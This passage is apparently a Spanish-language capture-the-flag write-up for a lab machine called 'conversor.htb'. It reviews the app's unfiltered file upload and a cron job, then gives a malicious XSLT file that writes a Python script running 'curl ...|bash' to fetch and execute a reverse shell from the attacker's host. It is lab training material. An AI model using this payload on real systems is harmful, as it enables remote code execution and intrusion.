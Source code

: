 ```shell 
uploads/
```
Hay varios fichero interesantes como install y app.py que examinamos con detenimiento.

- El fichero app.py nos encontramos con que no filtra los fichero que subimos y podemos usarlo como vector de ataque eso se puede ver en esta parte del código

```shell
if 'user_id' not in session:
        return redirect(url_for('login'))
    xml_file = request.files['xml_file']
    xslt_file = request.files['xslt_file']
    from lxml import etree
    xml_path = os.path.join(UPLOAD_FOLDER, xml_file.filename)
    xslt_path = os.path.join(UPLOAD_FOLDER, xslt_file.filename)
    xml_file.save(xml_path)
    xslt_file.save(xslt_path)
```

- Nos encontramos un path a una base de datos con usuarios que seguramente tengamos que intentar extraer desde ahí los ususarios y contraseña para entrar con ssh.

```shell
BASE_DIR = os.path.dirname(os.path.abspath(__file__))
DB_PATH = '/var/www/conversor.htb/instance/users.db'
UPLOAD_FOLDER = os.path.join(BASE_DIR, 'uploads')
os.makedirs(UPLOAD_FOLDER, exist_ok=True)
```

- En en fichero `install.md` nos encontramos con este mensaje interesante donde todos los archivos se ejecutan en un directorio `/script` con un crontab

```shell
You can also run it with Apache using the app.wsgi file.

If you want to run Python scripts (for example, our server deletes all files older than 60 minutes to avoid system overload), you can add the following line to your /etc/crontab.

"""
* * * * * www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done
"""
```

## Intrusión 
Con todo ello vamos a intentar inyectar la revershell en un fichero xslt de la siguiente manera:

Un archivo shell.xslt 
```shell
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet 
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform" 
    xmlns:shell="http://exslt.org/common"
    extension-element-prefixes="shell"
    version="1.0"
>
<xsl:template match="/">
<shell:document href="/var/www/conversor.htb/scripts/shell.py" method="text">
import os
os.system("curl 10.10.14.17:8000/shell.sh|bash")
</shell:document>
</xsl:template>
</xsl:stylesheet>
```
